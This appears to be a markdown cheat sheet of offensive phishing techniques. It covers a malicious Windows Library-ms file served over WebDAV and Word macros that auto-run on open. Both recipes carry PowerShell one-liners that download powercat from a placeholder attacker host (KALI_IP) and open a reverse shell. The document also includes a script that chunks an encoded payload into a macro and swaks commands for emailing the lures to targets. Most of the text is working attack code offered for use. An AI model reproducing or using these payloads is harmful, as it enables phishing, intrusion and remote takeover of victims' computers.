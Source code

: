 # *library-webdav*
1. _**Configure** the **config.Library-ms** (which will provide access to webdav):_
	***REPLACE**:*
	1. *KALI_IP*
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://KALI_IP</url> <!-- #REPLACE -->
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
2. _**Setup** webdav folder on port 80:_
	***REPLACE**:*
	1. *path/to/webdav*
```shell
mkdir webdav
$(which wsgidav) --host=0.0.0.0 --port=80 --auth=anonymous --root ./webdav
```
3. _**Create** shortcut file with the below powercat payload as the path, and copy into WEBDAV folder_
	***REPLACE**:*
	1. *KALI_IP x2*
```shell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://KALI_IP:8080/windows/powercat.ps1');powercat -c KALI_IP -p 443 -e powershell"
```
4. _**Setup** python server on 8080 and nc listener on 443 and send email with the library as attachment, using swaks:_
	***REPLACE**:*
	1. *TARGET_IP*
	2. *TO_EMAIL*
	3. *FROM_EMAIL*
	4. *BODY.txt*
```shell
swaks -t TO_EMAIL --from FROM_EMAIL -ap --attach @config.Library-ms --server TARGET_IP --body @BODY.txt --header "Subject: Universal Exploration" --suppress-data -ap
```

_**Reverse-Shell** should be obtained on our listener_


# ***Word-Macros***
### ***!!! Create & Save as .DOC (not .docx) !!!***
1. _**Test using below payload** by saving the macro and opening the document:_
```vb
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    CreateObject("Wscript.Shell").Run Str
End Sub
```
2. _**Use Encoded Powercat Reverse Shell** as payload to be ran w/ powershell on target:_
```vb
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -enc cmd_pt_1
    Str = Str + "cmd_pt_2"
    ...
    Str = Str + "cmd_pt_last"

    CreateObject("Wscript.Shell").Run Str
End Sub
```
```python
# in KALI, breaking-up the powercat-encoded payload to parts for the macro
###########################################################################
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGU..."
n = 50
for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')

# copy-paste the output to the macro
```
3. _**Setup** python server on 80 and nc listener on 443 and send payload using **swaks** (or any other method)_
```shell
swaks -t TO_EMAIL --from FROM_EMAIL -ap --attach @document.doc --server TARGET_IP --body @BODY.txt --header "Subject: Important Document" --suppress-data -ap
```

_**Reverse-shell** should be obtained on our listener_
